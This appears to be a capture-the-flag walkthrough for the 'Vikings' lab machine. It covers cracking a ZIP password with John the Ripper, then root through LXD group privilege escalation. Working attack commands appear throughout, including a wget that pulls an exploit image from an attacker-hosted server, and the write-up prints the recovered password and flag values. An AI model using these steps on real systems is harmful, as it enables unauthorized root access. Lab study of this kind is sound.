 # Walkthrough – Vikings (LXD Privilege Escalation)

## Step 1 – Cracking the Password-Protected ZIP

On the attacker machine:

```bash
# Move into Desktop and locate the zip file
ls ~/Desktop

# Convert the ZIP into a hash John can understand
~/Desktop/john/run/zip2john ~/Desktop/output > hash

# Use rockyou.txt to crack it
~/Desktop/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Result:

```
ragnarok123      (output/king)
```

Confirm with:

```bash
~/Desktop/john/run/john --show hash
```

Output:

```
output/king:ragnarok123:king:output:/home/yumi/Desktop/output
```

Now unzip with the recovered password:

```bash
unzip -P ragnarok123 output
```

---

## Step 2 – Accessing the Target

SSH into the target:

```bash
ssh floki@192.168.56.122
```

Check privileges:

```bash
id
```

Floki is in the `lxd` group → this is exploitable.

---

## Step 3 – Preparing LXD Exploit Image (Attacker Machine)

Clone and build the Alpine image:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

This generates a file like:

```
alpine-v3.13-x86_64-20210218_0139.tar.gz
```

Host it via Python web server:

```bash
python3 -m http.server 80
```

---

## Step 4 – Download Exploit Image on Target (Vikings)

On the target machine:

```bash
wget http://192.168.56.114/alpine-v3.13-x86_64-20210218_0139.tar.gz -O /tmp/alpine.tar.gz
```

Import it into LXC:

```bash
lxc image import /tmp/alpine.tar.gz --alias privesc
lxc image list
```

---

## Step 5 – Initialize LXD

If storage/network not yet configured:

```bash
lxd init
```

Choose defaults but skip networking if it fails.

---

## Step 6 – Launch Privileged Container

```bash
lxc init privesc mycontainer -c security.privileged=true
lxc config device add mycontainer host-root disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Inside container:

```bash
chroot /mnt/root /bin/bash
whoami
# root
```

---

## Step 7 – Loot Flags

```bash
cd /root
cat root.txt
# f0b98d4387ff6da77317e582da98bf31

cd /home/ragnar
cat user.txt
# 4bf930187d0149a9e4374a4e823f867d
```

---

✅ Exploit complete: Root access obtained through **LXD group privilege escalation** after cracking the initial ZIP with **John the Ripper**.
